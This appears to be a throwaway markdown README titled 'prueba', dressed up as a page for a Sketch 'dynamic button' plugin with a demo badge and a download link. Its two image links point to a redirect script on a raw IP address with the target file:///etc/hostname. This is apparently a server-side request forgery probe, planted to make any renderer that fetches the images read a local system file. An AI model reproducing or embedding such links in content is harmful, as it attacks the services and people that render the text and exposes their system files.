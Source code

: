 prueba
======

mmmm
[![Demo Video](http://167.88.44.217/redir.php?url=file:///etc/hostname)](http://www.youtube.com/watch?v=ZJCYUCU7YxQ)

1. [Download Dynamyc button.sketchplugin.](https://github.com/sketchplugins/sketch-dynamic-button/archive/master.zip)

  <img src="http://167.88.44.217/redir.php?url=file:///etc/hostname" alt="installed" width="534" />
